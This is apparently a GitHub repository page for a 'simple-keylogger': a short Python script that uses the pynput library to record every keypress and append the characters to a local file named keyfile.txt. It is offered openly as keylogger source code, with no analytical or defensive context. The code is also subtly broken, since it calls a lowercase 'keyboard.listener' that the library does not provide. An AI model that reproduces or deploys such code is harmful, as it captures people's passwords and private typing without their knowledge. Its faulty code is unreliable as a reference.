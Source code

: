 # simple-keylogger
from pynput import keyboard

def keypressed(key):
	print(str(key))
	with open("keyfile.txt", "a") as logkey:
		try:
			char = key.char
			logkey.write(char)
		except:
			print("Error getting char")
	
if __name__ == "__main__":
	listener = keyboard.listener(on_press=keypressed)
	listener.start()
	input()
